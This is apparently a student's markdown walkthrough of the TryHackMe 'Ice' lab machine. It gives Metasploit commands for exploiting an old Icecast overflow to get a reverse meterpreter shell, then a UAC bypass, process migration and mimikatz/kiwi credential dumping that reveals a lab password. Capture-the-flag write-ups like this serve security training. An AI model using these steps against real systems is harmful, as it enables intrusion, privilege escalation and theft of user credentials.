





# ICE TryHackMe Machine
## 1. Recon
```
nmap -sV <machine ip>
```

we search for vulnerablilites on CVE for the icecast service on port 8000<br>
found vulnerability execute code overflow CVE-2004-1561 <br>
## 2. Exploiting
```
msfconsole
search icecast
use 0
set LHOST <your ip>
set RHOST <victim ip>
run
```
We succesfully pwned the machine and opened a meterpreter connection <br>

## 3. privilege escalation

```
run post/multi/recon/local_exploit_suggester
```
this script suggested plenty exploits that can be used against this machine <br>


we used the exploit exploit/windows/local/bypassuac_eventvwr
```
bg
use exploit/windows/local/bypassuac_eventvwr
set LHOST <your ip>
run
```
this spawns a meterpreter session that has administrator privileges <br>

```
ps
migrate -N spoolsv.exe
```
this migrates our process to a process which has more privileges. <br>
now we load the mimikatz or kiwi module to steal the passwords of the users
```
load kiwi
creds_all
```
this reveals the password of the user "Dark" which is Password01! <br>


with this we clear the ice room.

